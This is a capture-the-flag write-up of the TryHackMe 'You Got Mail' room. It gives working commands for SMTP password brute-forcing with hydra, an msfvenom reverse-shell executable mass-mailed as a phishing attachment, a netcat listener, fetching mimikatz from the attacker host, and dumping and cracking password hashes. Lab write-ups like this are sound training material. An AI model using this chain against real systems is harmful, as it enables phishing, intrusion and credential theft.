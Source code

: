 ```yaml
---
title: "TryHackMe: You Got Mail"
author: Kasem Shibli
categories: [TryHackMe]
tags: [web, brute-force, hydra, cewl, phishing, post-exploitation]
render_with_liquid: false
media_subpath: /blog/images/tryhackme_you_got_mail/
image:
  path: room_image.webp
---
```


**You Got Mail** started with basic enumeration to discover a list of email addresses and create a custom wordlist to find the password for one of them. We then used this account to send phishing emails to other discovered email addresses with an executable attachment to gain a shell. After obtaining a shell, we performed some post-exploitation to discover two passwords and complete the room.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/room/yougotmail){: .center }

## Initial Enumeration

### Nmap Scan

Starting with an `nmap` scan, we can see that, apart from some of the usual `Windows` services, there are also mail-related services running.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.118.67
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: UIDL USER TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: NAMESPACE QUOTA CHILDREN IMAP4 CAPABILITY completed OK IMAP4rev1 RIGHTS=texkA0001 ACL IDLE SORT
445/tcp   open  microsoft-ds?
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
...
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Web Application

Along with the target, we are also given a website at `https://brownbrick.co/`, where we find a static site.

![Brownbrick Index](brownbrick_index.webp){: width="1200" height="600"}

Checking the **Our Team** section at `https://brownbrick.co/menu.html`, we can find a couple of email addresses.

![Brownbrick Menu](brownbrick_menu.webp){: width="1200" height="600"}

## Shell as wrohit

From the emails, we can create a wordlist as follows:

```
fstamatis@brownbrick.co
pcathrine@brownbrick.co
tchikondi@brownbrick.co
lhedvig@brownbrick.co
wrohit@brownbrick.co
oaurelius@brownbrick.co
```
{: file="emails.txt" }

Using the web application, we can also create a custom wordlist for passwords using `cewl`:

```console
$ cewl --lowercase https://brownbrick.co/ > passwords.txt
```

Using `hydra` to test these passwords against the email addresses we found, we are able to discover the password for the `lhedvig@brownbrick.co` email account:

```console
$ hydra -L emails.txt -P passwords.txt 10.10.118.67 smtp -s 587 -t 16
...
[587][smtp] host: 10.10.118.67   login: lhedvig@brownbrick.co   password: bricks
...
```

Now that we have valid credentials, we can use them to send emails to other users.

First, we create a reverse shell executable to use as an attachment with `msfvenom`:

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.72.22 LPORT=443 -f exe -o shell.exe
```

Then, using our email list, we can use `sendemail` to send emails with our executable as an attachment to the other users:

```console
$ for email in $(cat emails.txt); do sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "test" -m "test" -a shell.exe -s 10.10.118.67:25 -xu "lhedvig@brownbrick.co" -xp "bricks"; done
```
{: .wrap }

With this, we can see that our executable is executed by one of the users, granting us a shell as `wrohit` and we can then read the flag located at `C:\Users\wrohit\Desktop\flag.txt`.

```
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.118.67] 49773
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Mail\Attachments>whoami
brick-mail\wrohit
C:\Mail\Attachments>type C:\Users\wrohit\Desktop\flag.txt
THM{[REDACTED]}
```

## Finding the Passwords

### Password of wrohit

At this point, since we are a member of the `Administrators` group, we can simply upload **Mimikatz** to the machine and use it to dump the hashes from the `SAM` registry as follows:

```
C:\ProgramData>curl http://10.11.72.22/mimikatz.exe -o mimikatz.exe
C:\ProgramData>.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
...
RID  : 000003f6 (1014)
User : wrohit
  Hash NTLM: 8458995f1d0a4b0c107fb8e23362c814
...
```

We can then use **[CrackStation](https://crackstation.net/)** to crack the hash and recover the password for the user.

![Crackstation One](crackstation_one.webp){: width="1000" height="100"}

> There are also many other ways we could have achieved the same goal. For example, we could also obtain the user's hash using the `sekurlsa::msv` module or directly retrieve the password using `sekurlsa::wdigest` instead of cracking the hash. Alternatively, in a scenario where we did not have permissions to run these modules, since we already have a shell as the `wrohit` user, we could have run **responder** on our machine and used the existing shell to force authentication to our server, capturing the hash for the user and cracking it.
{: .prompt-tip }

### Password for hMail Dashboard

Lastly, we are tasked with finding the password for the **hMailServer Administrator Dashboard**, which we can find in hashed form inside the `C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI` configuration file:

```
C:\>type "C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI"
...
[Security]
AdministratorPassword=5f4dcc3b5aa765d61d8327deb882cf99
...
```

Once again, using **[CrackStation](https://crackstation.net/)** to crack the hash, we can retrieve the password and complete the challenge.

![Crackstation Two](crackstation_two.webp){: width="1000" height="100"}

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>